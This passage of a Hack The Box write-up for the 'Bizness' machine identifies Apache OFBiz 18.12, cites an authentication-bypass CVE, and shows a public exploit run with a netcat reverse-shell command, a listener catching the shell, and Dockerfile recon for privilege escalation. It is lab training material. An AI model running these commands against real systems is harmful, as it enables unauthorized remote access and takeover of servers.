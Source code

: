 ![webpage_control_login](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Bizness/webpage_control_login?raw=true)

Browsing the `/login` endpoint resulted in an interesting information in the webpage footer. 

>   In the footer of the webpage: `Powered by Apache OFBiz. Release 18.12`

```
# To use images
![image](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/NAMEOFMACHINE/image.png?raw=true)
```

# Exploitation

This Apache OFBiz version is vulnerable to `CVE-2023-51467` and `CVE-2023-49070`.

Searching for `Apache OFBiz 18.12 exploit` resulted in this [Github repository](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass).

```bash
$ python3 exploit.py --url "https://bizness.htb/" --cmd "nc 10.10.14.11 9001 -e /bin/bash"
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.

$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.252] 50664
whoami
ofbiz
/usr/bin/script -qc /bin/bash /dev/null
ofbiz@bizness:/opt/ofbiz$ 
```

# Privilege Escalation

Analyzed the `Dockerfile` and noticed that there is a `docker-entrypoint.sh` file.

```bash
ofbiz@bizness:/opt/ofbiz$ cat Dockerfile
...
RUN ["useradd", "ofbiz"]
...
RUN ["/usr/bin/chown", "-R", "ofbiz:ofbiz", "/docker-entrypoint-hooks" ]

USER ofbiz
WORKDIR /ofbiz

...

# Leave executable scripts owned by root and non-writable, addressing sonarcloud rule,
# https://sonarcloud.io/organizations/apache/rules?open=docker%3AS6504&rule_key=docker%3AS6504
COPY --chmod=555 docker/docker-entrypoint.sh docker/send_ofbiz_stop_signal.sh .

COPY --chmod=444 docker/disable-component.xslt .
COPY --chmod=444 docker/templates templates

EXPOSE 8443
EXPOSE 8009
EXPOSE 5005

ENTRYPOINT ["/ofbiz/docker-entrypoint.sh"]
CMD ["bin/ofbiz"]
...
```